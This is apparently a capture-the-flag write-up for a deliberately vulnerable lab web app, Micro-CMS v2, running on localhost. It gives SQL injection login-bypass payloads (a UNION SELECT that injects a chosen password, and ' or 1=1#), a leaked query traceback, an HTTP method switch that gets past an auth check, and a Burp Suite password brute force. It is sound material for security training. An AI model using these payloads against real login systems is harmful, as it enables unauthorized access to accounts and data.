




# Micro-CMS v2 - FLAG0

## Flag0 Solution

When clicked to view the website, we are presented with this. This is the same website as the one from Micro-CMS v1



When we try to create a new page, we are redirected to a login page.

Some credentials were tried but we are still not able to login



Next, SQL injection is tested against the website using ```'```. 

An SQL error message is received. 

Error message: 

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

This shows that SQL injection is possible. Thus, bypass login is then tested against the website. 

In USERNAME = 

```sql
' UNION SELECT '123' AS password#
```

and PASSWORD = 123

```Complete SQL Command: 
SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password#
```

Successful Login: 



Once we logged into the webpage, a private page is found. 



By viewing the page, the flag is found.


## FLAG1 Solution 

Let's start off by trying to edit the page as a normal user.

```
http://127.0.0.1:5001/xxxxxxxxxx/page/edit/1
```

Using the ```repeater tab``` in Burpsuite, it shows that the webpage is redirecting it to the login page.


However, when the request is changed from a ```GET``` request to a ```POST``` request, the flag is shown.


## FLAG2 Solution 

Lastly, using the login page, SQL injection is used again to bypass username using the following command: 
```
' or 1=1#
```

Burpsuite is then used again to crack the password. 


By comparing the status, it is known that the password found is **grover** and the flag is obained in the response tab

